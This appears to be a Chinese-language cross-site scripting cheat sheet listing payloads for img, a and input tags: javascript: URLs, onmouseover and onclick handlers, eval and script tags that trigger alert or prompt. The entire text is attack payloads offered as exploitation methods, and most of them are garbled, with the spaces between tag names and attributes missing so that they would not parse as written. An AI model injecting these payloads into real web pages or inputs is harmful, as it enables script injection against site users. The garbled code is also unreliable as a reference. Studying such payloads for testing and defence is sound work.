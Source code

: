 ##### XSS 利用方式3

```javascript
<imgsrc=1onmouseover=alert('xss')>
```

#### `<a>`标签

##### 标准格式

```javascript
<ahref="https://www.baidu.com">baidu</a>
```

##### XSS 利用方式1

> ```javascript
> <ahref="javascript:alert('xss')">aa</a>
> <ahref=javascript:eval(alert('xss'))>aa</a>
> <ahref="javascript:aaa"onmouseover="alert(/xss/)">aa</a>
> ```

##### XSS 利用方式2

> ```javascript
> <script>alert('xss')</script>
> ```

##### 利用方式3

```javascript
<ahref=""onclick=eval(alert('xss'))>aa</a>
```

##### 利用方式4

```javascript
<ahref=kycg.asp?ttt=1000 onmouseover=prompt('xss')y=2016>aa</a>
```

#### input 标签

##### 标准格式

```
<inputname="name"value="">
```

##### 利用方式1

```
<inputvalue=""onclick=alert('xss')type="text">
```

##### 利用方式2

```
<inputname="name"value=""onmouseover=prompt('xss')bad="">
```
